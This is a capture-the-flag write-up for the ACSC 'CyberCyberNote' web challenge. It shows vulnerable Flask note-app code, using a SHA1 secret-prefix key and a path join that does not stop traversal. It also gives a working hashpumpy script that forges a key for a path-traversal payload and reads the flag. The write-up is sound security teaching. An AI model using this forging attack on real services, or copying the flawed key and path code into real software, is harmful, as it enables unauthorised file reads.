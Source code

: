 ```yaml
---
author: Aryt3
pubDatetime: 2025-05-01
title: ACSC CyberCyberNote Writeup
slug: acsc-cybercybernote
featured: true
draft: false
tags:
    - ACSC
    - crypto
description:
  A Writeup and Walkthrough of the ACSC CyberCyberNote challenge.
---
```



# CyberCyberNote

## Description

```
Somebody has leaked files from one of our servers and we have gotten wind that it might have happened through our super secure cyber note taking service. 
Can you figure out how those darn criminals cybered through those notes unauthorized?
```

## Provided Files

```
cybercybernote
├── docker-compose.yml
├── Dockerfile
└── src
    ├── app.py
    ├── notes
    ├── notetaking.py
    ├── static
    │   └── style.css
    ├── templates
    │   ├── base.html
    │   ├── index.html
    │   └── view.html
    └── utils.py
```

## Writeup

Starting off, I inspected the `app.py` which contains the main functionality of the application. <br/>
```py
import os
from urllib.parse import parse_qs


from flask import Flask, render_template, request, abort, redirect, url_for
from notetaking import new_note, list_notes, get_note


WEB_PORT = int(os.getenv("WEB_PORT", "5000"))
FLAG = os.getenv("FLAG", "dach2025{dummy_flag}")


def add_flag():
    with open("flag.txt", "w") as f:
        f.write(FLAG)


app = Flask(__name__)


@app.route('/', methods=['GET'])
def index():
    notes = list_notes()

    return render_template('index.html', notes=notes)


@app.route('/view')
def view_note():
    params = parse_qs(request.query_string)

    filename = params.get(b'filename', [b''])[0]
    provided_key = params.get(b'key', [b''])[0]

    if not filename or not provided_key:
        return abort(404)

    return render_template('view.html', filename=filename, content=get_note(filename, provided_key))


@app.route('/new', methods=['POST'])
def add_note():
    content = request.form.get('content')

    if not content:
        return abort(400)

    new_note(content)

    return redirect(url_for('index'))


if __name__ == '__main__':
    add_flag()
    app.run("0.0.0.0", port=WEB_PORT, debug=False)
```

Now to get the flag I would either have to read `global-context`, `environment variables` or `files` on the system. <br/>
Looking at the code and how the flag is written to a file, it's probably about reading files. <br/>
Knowing this I focused on the `/view` endpoint which lets us read files if we have the correct key. <br/>

The key is generated with the provided `filename` and a `SECRET_KEY` which we don't know. <br/>
```py
import os
import secrets

from hashlib import sha1

from utils import safe_path, ensure_string


NOTES_DIR = safe_path(os.getcwd(), 'notes/')


SECRET_KEY = secrets.token_hex(8).encode()


def generate_access_key(filename):
    if isinstance(filename, str):
        filename = filename.encode()
    return sha1(SECRET_KEY + filename).hexdigest()


def new_note(content):
    filename = content.split("\n")[0][:64]
    safe_filename = "".join(c for c in filename if c.isalnum() or c in (' ', '_', '-')).rstrip()
    if len(safe_filename) == 0:
        raise ValueError("Invalid filename")

    filepath = safe_path(NOTES_DIR, safe_filename + '.txt')
    with open(filepath, 'w') as f:
        f.write(content)


def list_notes():
    notes = []

    for filename in os.listdir(NOTES_DIR):
        if filename.endswith('.txt'):
            notes.append((filename, generate_access_key(filename)))

    return notes


def get_note(filename, access_key):
    if ensure_string(access_key) != generate_access_key(filename):
        raise PermissionError(f"Access denied for note '{filename}'")

    filepath = safe_path(NOTES_DIR, ensure_string(filename))
    if not os.path.exists(filepath):
        raise FileNotFoundError(f"Note '{filename}' not found")

    with open(filepath, 'r') as f:
        content = f.read()

    return content
```

> An application is susceptible to a hash length extension attack if it prepends a secret value to a string, hashes it with a vulnerable algorithm, and entrusts the attacker with both the string and the hash, but not the secret. <br/>
> Then, the server relies on the secret to decide whether or not the data returned later is the same as the original data. 

*[source](https://www.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks)*

Even though we don’t know the secret, we can forge a valid hash for a longer message — such as one containing a path traversal payload. <br/>

### The Vulnerability

In `new_note`, filenames are limited to a sanitized string from the first line of content: <br/>
```py
def new_note(content):
    filename = content.split("\n")[0][:64]
    safe_filename = "".join(c for c in filename if c.isalnum() or c in (' ', '_', '-')).rstrip()
    if len(safe_filename) == 0:
        raise ValueError("Invalid filename")

    filepath = safe_path(NOTES_DIR, safe_filename + '.txt')
    with open(filepath, 'w') as f:
        f.write(content)
```

This limits our ability to directly create traversal filenames like `../../flag.txt`. But since the access key is calculated from the unsanitized filename, and that hash is shared with the user, we can perform a **hash length extension attack** using the original filename and key to forge a new valid key for a malicious filename — without knowing the secret key but the length of the secret key which stays the same.

To solve this I made a simple python script using the [hashpumpy](https://pypi.org/project/hashpumpy/) library. <br/>
```py
import requests, hashpumpy

BASE_URL = 'https://56slhmke6dn4q7na.dyn.acsc.land/'

# filename for exploit (used once for note-creation and later for hash-length extension attack)
filename = 'test'
payload = {
    'content': filename
}

# Creates the note {filename}.txt
r = requests.post(f'{BASE_URL}new', data=payload)

# Get generated hash from name
ORIGINAL_HASH = r.text.split(f'href="/view?filename={filename}.txt&key=')[1].split('"')[0]
ORIGINAL_FILENAME = f'{filename}.txt'

# path-traversal payload for forgery
CHANGED_FILENAME = '/../treasure.txt/../../flag.txt'

out = hashpumpy.hashpump(ORIGINAL_HASH, ORIGINAL_FILENAME, CHANGED_FILENAME, 16)
# print(out)

# execute attack with forged key
r = requests.get(f'{BASE_URL}view', params={'filename': out[1], 'key': out[0]})

# Extract flag from html
flag = r.text.split('<pre>')[1].split('</pre>')[0]

print('[+] Found flag: ', flag)
```

The `safe_path` function also doesn't defend against path-traversal, therefore we can just climb the file-system to the flag. <br/>
```py
def safe_path(*parts):
    return os.path.normpath(os.path.join(*parts))
```

Performing the attack and retrieving the flag concludes this writeup *:3*. <br/>
```py
$ python3 exploit.py
[+] Found flag:  dach2025{cybercybercybercybercybercybercyber_faqh4w1slljqrd73}
```